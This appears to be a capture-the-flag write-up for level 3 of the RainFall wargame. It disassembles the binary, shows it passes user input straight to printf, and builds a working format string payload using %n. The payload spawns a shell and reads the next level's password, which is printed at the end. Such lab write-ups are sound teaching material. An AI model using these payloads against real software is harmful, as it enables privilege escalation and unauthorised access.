 ## LEVEL 3

As several times previously i gonna disassemble the code to understand how it works.

```shell
level3@RainFall:~$ gdb -q level3
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   %ebp
   0x0804851b <+1>:	mov    %esp,%ebp
   0x0804851d <+3>:	and    $0xfffffff0,%esp
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
```

GDB teachs us many things.

```shell
0x080484d5 <+49>:	call   0x8048390 <printf@plt>
0x080484da <+54>:	mov    0x804988c,%eax
0x080484df <+59>:	cmp    $0x40,%eax
```
Now we know that after `printf()` calls the program move `0x804988c` in `eax` to compare it with value `0x40` if the compare is correct it can launch a new shell. But we know that `gets()` isn't used instead the program use `fgets()` which is secured. Let's see how printf is called with `ltrace`.

```shell
level3@RainFall:~$ ltrace ./level3
__libc_start_main(0x804851a, 1, 0xbffff7a4, 0x8048530, 0x80485a0 <unfinished ...>
fgets(AAAAA
"AAAAA\n", 512, 0xb7fd1ac0)          = 0xbffff4f0
printf("AAAAA\n"AAAAA
)                          = 6
+++ exited (status 0) +++
```

`ltrace` shows us that `printf()` is called with the `fgets()` buffer so we can easily understand that `printf()` is called as below.

```c
printf(buffer);
```

That's means that we can use a **Format String Attack**.

### Format String Attack

A format string attack is a `printf()` vulnerability which consists use printf's flags in the buffer, and `printf()` won't know what to read, so it will read random places on stack.

**Example :**
```shell
level3@RainFall:~$ python -c 'print "AAAA %p %p %p %p %p %p"' | ./level3
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025
```

As we can see, `printf()` prints random adresses in the stack except for one address, the fourth. The fourth adress is the value given in the begin of our string. Interesting, that's means that if we write a correct address instead of `AAAA` and change `%p` with `%d` we can print a value of a precise address in the stack. Let's try to print the address found few lines above.

```shell
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%d %d %d %d %d %d"' | ./level3
�512 -1208149312 -1208010800 134518924 622879781 1680154724
```

OK, that's looks good for us. We know that `printf()`'s flag %n can write a precise address with the len of our string. So if we write our address and then 60 characters before our flag we can change the value pointed the address to `0x40`.

### Payload

`python -c 'print "\x8c\x98\x04\x08" + "\x90"*60 + "%4$n"' > /tmp/payload`

Now we have our payload we just have to inject it into the program.

```shell
level3@RainFall:~$ (cat /tmp/payload; echo "cat /home/user/level4/.pass") | ./level3
�������������������������������������������������������������
Wait what?!
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
